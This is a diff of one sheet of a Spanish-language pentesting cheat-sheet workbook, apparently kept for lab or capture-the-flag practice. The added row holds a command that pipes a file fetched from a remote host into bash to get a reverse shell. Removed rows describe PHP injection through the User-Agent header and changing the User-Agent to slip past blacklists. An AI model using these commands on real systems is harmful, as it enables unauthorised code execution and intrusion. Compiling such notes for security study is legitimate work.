

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; rows hold the shown columns only; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-R17 (WEEVELY): (empty)
+R17 (WEEVELY): curl 10.10.10.10/index.html | bash
-S17: (empty)
+S17: Para que interprete el contenido de un archivo con bash y nos devuelva una shell estando a la escucha
-R18 (WEEVELY): ByPass Listas negras
+R18 (WEEVELY): (empty)
-R18:T18 merged
-row 19:  |  | cambiar el User-Agent por <?phpinfo();?> | Para ver si se puede cargar php en el User-Agent | Comando | Descripcion | Anotaciones |  |  | Comando | Descripcion | Anotaciones
-row 20:  |  | Control shift U | Para decodificar URL por ejemplo cuando vamos a hacer una peticion de intruder para sacar una contraseña y nos muestra caracteres extraños | tcpdump -ni tun0 icmp | Para comprobar por ejemplo que tenemos conexion en un netcat y le llegan los paquetes | -n que no convierta las direcciones a nombres -i para que escuche en una interfaz |  |  | curl -H "User-Agent: Dirbuster "http;//10.10.10.10.8000/ | Donde Dirbuster es el agente en lista negra | Cambiar el User-Agent por uno que no exista para bypass listas negras o uno que no este en la lista negra |  | JOOMLA
```
Also changed, not shown: 18 added rows, 9 removed rows, 36 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, sheet Inyecciones, sheet Reconocimiento & Informacion, sheet Reversing & Forensics, 1 more sheet, cell formats, charts or pictures.
